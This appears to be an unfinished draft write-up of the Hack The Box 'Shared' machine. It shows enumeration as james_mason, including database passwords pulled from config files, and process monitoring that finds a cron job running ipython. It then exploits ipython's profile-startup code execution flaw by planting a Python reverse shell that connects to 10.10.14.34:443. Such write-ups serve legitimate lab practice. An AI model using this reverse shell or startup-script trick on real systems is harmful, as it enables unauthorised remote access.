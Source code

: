 ```yaml
---
title: HTB - Shared
description: This is an example doc layout of Eureka theme
toc: true
authors: Alpharivs
tags:
  - malware
  - analysis
  - static
  - dynamic
  - reversing
  - dropper
  - wannacry
categories: writeups
date: '2022-11-08'
draft: true
---
```

# Under Construction
## User: james_mason

We can now ssh into the box as the user james_mason.
```bash
james_mason@shared:~$ whoami
james_mason
```
### Enumeration

First let's check other users of the machine.
```bash
james_mason@shared:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
james_mason:x:1000:1000:james_mason,,,:/home/james_mason:/bin/bash
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash
```
Interestingly when checking which groups our user has membership of we can see a suspicious non default group.
```bash
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```

### Developer Group

```bash
james_mason@shared:~$ find / -group developer -ls 2>/dev/null
    46286      4 drwxrwx---   2 root     developer     4096 Nov 14 12:20 /opt/scripts_review
```

```bash
james_mason@shared:/var/www/shared.htb/ps/app/config$ grep -R -i password
doctrine.yml:        password: "%database_password%"
config.yml:    password:  "%mailer_password%"
parameters.yml.dist:    database_password: ~
parameters.yml.dist:    mailer_password:   ~
parameters.php:    'database_password' => 'T*k#cbND_C*WrQ9h',
parameters.php:    'mailer_password' => NULL,
```
```bash
james_mason@shared:/var/www/shared.htb/ps/app/config$ cat parameters.php
...(SNIP)...
    'database_user' => 'pshop',
    'database_password' => 'T*k#cbND_C*WrQ9h',
```
```bash
james_mason@shared:/var/www/checkout.shared.htb/config$ cat db.php 
<?php
define('DBHOST','localhost');
define('DBUSER','checkout');
define('DBPWD','a54$K_M4?DdT^HUk');
define('DBNAME','checkout');
?>
```

### Processes Enumeration

```bash
james_mason@shared:/dev/shm$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done

...(snip)...

2022/11/14 12:51:01 CMD: UID=1001 PID=11616  | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
2022/11/14 12:51:01 CMD: UID=1001 PID=11615  | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
2022/11/14 12:51:01 CMD: UID=1001 PID=11617  | /usr/bin/python3 /usr/local/bin/ipython 
```
ipython cod execution [this page](https://security.snyk.io/vuln/SNYK-PYTHON-IPYTHON-2348630) which leads to the patch release notes where we can find a link to a [GitHub advisory](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x) that details the vulnerability 

```bash
mkdir -m 777 -p /opt/scripts_review/profile_default/startup
```
and we can create a malicious python script inside.
```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.34",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
```bash
sudo ncat -lnvp 443
```
and after some time we successfully receive a shell.

```bash

```

## User: dan
